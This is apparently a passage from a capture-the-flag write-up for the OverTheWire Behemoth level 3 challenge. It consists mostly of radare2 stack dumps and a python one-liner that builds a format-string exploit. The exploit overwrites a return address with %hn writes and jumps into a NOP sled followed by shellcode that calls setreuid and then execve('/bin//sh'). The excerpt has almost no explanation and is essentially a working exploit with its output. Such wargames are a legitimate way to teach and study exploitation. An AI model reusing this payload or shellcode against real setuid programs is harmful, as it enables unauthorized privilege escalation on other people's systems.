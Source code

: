 ```bash
0xffffd550  2531 3075 2568 6e90 9090 9090 9090 9090  %10u%hn.........
0xffffd560  9090 9090 9090 9090 9090 9090 9090 9090  ................
0xffffd570  9090 9090 9090 9090 9090 9090 9090 9090  ................
0xffffd580  9090 9090 9090 9090 906a 3158 cd80 89c3  .........j1X....
0xffffd590  89c1 6a46 58cd 8031 c050 682f 2f73 6868  ..jFX..1.Ph//shh
0xffffd5a0  2f62 696e 545b 5053 89e1 31d2 b00b cd80  /binT[PS..1.....
0xffffd5b0  0a00 0000 0070 fcf7 0000 0000 3b00 4500  .....p......;.E.
0xffffd5c0  0100 0000 0000 0000 3058 e4f7 2b85 0408  ........0X..+...
0xffffd5d0  0100 0000 94d6 ffff 9cd6 ffff 0185 0408  ................
0xffffd5e0  dc73 fcf7 0082 0408 e984 0408 0000 0000  .s..............
0xffffd5f0  0070 fcf7 0070 fcf7 0000 0000 37f6 e2f7  .p...p......7...
0xffffd600  0100 0000 94d6 ffff 9cd6 ffff 0000 0000  ................
0xffffd610  0000 0000 0000 0000 0070 fcf7 04dc fff7  .........p......
0xffffd620  00d0 fff7 0000 0000 0070 fcf7 0070 fcf7  .........p...p..
0xffffd630  0000 0000 8934 6f71 99da 284b 0000 0000  .....4oq..(K....
0xffffd640  0000 0000 0000 0000 0100 0000 8083 0408  ................
0xffffd650  0000 0000 f0ef fef7 8098 fef7 00d0 fff7  ................
0xffffd660  0100 0000 8083 0408 0000 0000 a183 0408  ................
0xffffd670  7d84 0408 0100 0000 94d6 ffff e084 0408  }...............
0xffffd680  4085 0408 8098 fef7 8cd6 ffff 18d9 fff7  @...............
0xffffd690  0100 0000 c9d7 ffff 0000 0000 ddd7 ffff  ................
[0x080484ca]> 
```

Our return address has moved to 0xffffd5fc. Let's attempt to set this value to be 0xffffd560 (right on one of our NOPs).

```
behemoth3@behemoth:/tmp/smhbehemoth3$ python -c 'print "\xfc\xd5\xff\xff" + "AAAA" + "\xfe\xd5\xff\xff" + "%08x.%08x.%08x.%08x.%54000u.%hn%u%hn" + "\x90"*50 + "\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"' > input.txt
0xffffd5f0  0070 fcf7 0070 fcf7 0000 0000 21d3 2bd3  .p...p......!.+.
[0x080484ca]> px 400 @ esp
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0xffffd510  28d5 ffff c800 0000 a075 fcf7 acd5 ffff  (........u......
0xffffd520  c92f fef7 0000 0000 fcd5 ffff 4141 4141  ./..........AAAA
0xffffd530  fed5 ffff 2530 3878 2e25 3038 782e 2530  ....%08x.%08x.%0
0xffffd540  3878 2e25 3038 782e 2535 3435 3735 752e  8x.%08x.%54575u.
0xffffd550  2568 6e25 3130 3931 3175 2568 6e90 9090  %hn%10911u%hn...
0xffffd560  9090 9090 9090 9090 9090 9090 9090 9090  ................
0xffffd570  9090 9090 9090 9090 9090 9090 9090 9090  ................
0xffffd580  9090 9090 9090 9090 9090 9090 9090 906a  ...............j
0xffffd590  3158 cd80 89c3 89c1 6a46 58cd 8031 c050  1X......jFX..1.P
0xffffd5a0  682f 2f73 6868 2f62 696e 545b 5053 89e1  h//shh/binT[PS..
0xffffd5b0  31d2 b00b cd80 0a00 0000 0000 2af3 e2f7  1...........*...
0xffffd5c0  0100 0000 0000 0000 3058 e4f7 2b85 0408  ........0X..+...
0xffffd5d0  0100 0000 94d6 ffff 9cd6 ffff 0185 0408  ................
0xffffd5e0  dc73 fcf7 0082 0408 e984 0408 0000 0000  .s..............
0xffffd5f0  0070 fcf7 0070 fcf7 0000 0000 60d5 ffff  .p...p......`...
0xffffd600  0100 0000 94d6 ffff 9cd6 ffff 0000 0000  ................
0xffffd610  0000 0000 0000 0000 0070 fcf7 04dc fff7  .........p......
0xffffd620  00d0 fff7 0000 0000 0070 fcf7 0070 fcf7  .........p...p..
0xffffd630  0000 0000 bb65 926b ab8b d551 0000 0000  .....e.k...Q....
0xffffd640  0000 0000 0000 0000 0100 0000 8083 0408  ................
0xffffd650  0000 0000 f0ef fef7 8098 fef7 00d0 fff7  ................
0xffffd660  0100 0000 8083 0408 0000 0000 a183 0408  ................
0xffffd670  7d84 0408 0100 0000 94d6 ffff e084 0408  }...............
0xffffd680  4085 0408 8098 fef7 8cd6 ffff 18d9 fff7  @...............
0xffffd690  0100 0000 c9d7 ffff 0000 0000 ddd7 ffff  ................
[0x080484ca]> 
```
